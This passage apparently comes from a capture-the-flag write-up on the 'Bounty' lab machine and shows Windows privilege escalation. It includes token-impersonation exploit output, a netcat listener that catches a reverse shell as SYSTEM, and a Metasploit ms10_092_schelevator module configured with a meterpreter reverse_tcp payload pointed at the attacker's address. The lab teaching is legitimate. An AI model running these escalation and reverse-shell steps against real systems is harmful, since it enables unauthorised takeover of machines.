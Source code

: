     CoGet: -2147022986 0
    [+] authresult != -1
    [+] Elevated Token tye:2
    [+] DuplicateTokenEx :1  0
    [+] Duped Token type:1
    [+] Running C:\users\merlin\appdata\local\temp\rev.bat sessionId 1
    [+] CreateProcessWithTokenW OK
    Auth result: 0
    Return code: 0
    Last error: 0





    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.93] 49190
    Windows PowerShell running as user BOUNTY$ on BOUNTY
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Windows\system32>whoami
    nt authority\system



### Escalation Method 2: Kernel Exploits - Metasploit

Unfortunately, I didn't have a good implementation of one of these
kernel exploits that fits my current situation outside of Metasploit.
There are lots of pre-compiled exes on github, but they typically open a
new cmd window, which isn't helpful here. And, since I got a Meterpreter
shell already for enumeration, I'll make good use of it:



    msf exploit(windows/local/ms10_092_schelevator) > options

    Module options (exploit/windows/local/ms10_092_schelevator):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       CMD                        no        Command to execute instead of a payload
       SESSION   1                yes       The session to run this module on.
       TASKNAME                   no        A name for the created task (default random)


    Payload options (windows/x64/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
       LPORT     443              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Windows Vista, 7, and 2008
